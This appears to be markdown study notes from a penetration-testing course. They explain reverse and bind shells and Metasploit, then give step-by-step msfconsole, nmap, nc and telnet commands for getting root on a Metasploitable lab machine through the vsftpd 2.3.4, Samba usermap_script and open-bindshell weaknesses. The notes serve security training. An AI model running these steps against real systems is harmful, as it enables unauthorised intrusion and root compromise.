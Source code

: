# Exploitation

We exploit one of the vulnerabilities we discovered to send a payload to the target. This will allow us to execute commands on the target system and navigate files. 

The payload tells the target system to make a connection to the hacker's computer and allow it to execute commands.

Social engineering is used whenever there are no known vulnerabilities on a target. We would try to get the target to open our payload themselves through a spoofed email or USB drive.

## Vulnerabilities

Exploitable vulnerabilities are possible because ports must be open on computers in order to connect to the internet. The goal is to gain access to poorly written software through an open port on a computer.

However, a lot of companies are extremely secure, so the most vulnerable targets will be employees through social engineering attacks.

## Reverse and Bind Shells

Shells will usually be the payloads we drop on a target. There are two different types of shells we will use: reverse and bind.

Reverse shells will try to connect back to the hacker's computer through TCP connection.

Bind shells are used whenever the target has an open port, we connect to it with our computer and pass the payload. This are less common because of firewall security features.

## Metasploit Framework

Metasploit offers thousands of exploits (Ruby) for Windows, Mac, and Linux. It also offers payloads (singles - standalone payload like adding a user or running an application, stagers - set up connection between attacker and target, stages - components downloaded by stagers modules), auxiliary modules (scanning, fuzzing, and DoS), encoders (helps evade antivirus detection, but most antivirus software is familiar with this), evasion modules (similar to encoders), nops (stops programs from running to allocate memory for future programs), and post exploitation modules (gather info like files saved, passwords, dumping hashes, enumerating the services and applications, etc.) as well.

Navigate to the exploits folder of metasploit and `nano FILENAME` to see details of how the exploit works.

### Msfconsole

`msfconsole` - opens metasploitable console

`help` - shows available commands

`show MODULENAME` - list available commands within a specific module

`use MODULENAME/FILEPATH` - execute a module command
    `use exploit/windows/smb/ms06_040_netapi`
    `show info` - shows more information on command
    `show options` - options available for the command
    `set OPTION NEWVALUE` - update a specific option's value
    `show payloads` - shows list of payloads available for this specific exploit
    `show targets` - shows list of targets vulnerable to this specific exploit
    `exploit` - run exploit

### First Exploits 

### vsftp 2.3.4 Exploitation

`sudo nmap -sV METASPLOITABLE` - scan for open ports

`searchsploit vsftp 2.3.4` - search metasploit framework for known exploits

`search vsftp` - (in msfconsole)

`use EXPLOITPATH`

`show info` - learn more about this specific exploit

`show options` - see parameters we need to use

`set RHOSTS METASPLOITABLE` - update target ip

`show payloads` - see default payloads to be sent

`show targets`

`exploit` - run the exploit

`whoami` `pwd` `ifconfig` `exit`

### Bindshell Exploitation (Misconfiguration)

Sometimes misconfigurations happen. Metasploitable has it's root shell open on a port. This isn't an 'exploit', just a misconfiguration that allows us root access.

`nc -h` - menu for netcab. We can connect or listen for inbound connections to ports.

`nc METASPLOITABLE 1524` - gives us access to root account

### Telnet Exploitation (Information Disclosure)

Run when telnet port is open. Telnet requires username and password to login, sometimes these are set to default.

`telnet METASPLOITABLE` - pulls up metasploitable cli, which tells us the login information. Login doesn't give us root access, however

`sudo su` - gives access to root account

### Samba Exploitation (Software Vulnerability)

nmap scan shows samba is running on open port, but does not give us the specific version. Searchsploit returns a lot of results for known exploits for different Samba versions. We can use a metasploit module to help.

`use auxiliary/scanner/smb/smb_version`

`show info` - description shows this module displays system versions

`show options` - see required parameters

`set RHOSTS IPADDRESS`

`run` - returns the specific Samba version

`searchploit Samba 3.0.20` - look for executables

`search samba` - search metasploit to find searchploit reference

`use exploit/multi/samba/usermap_script`

`show info` `show options`

`run`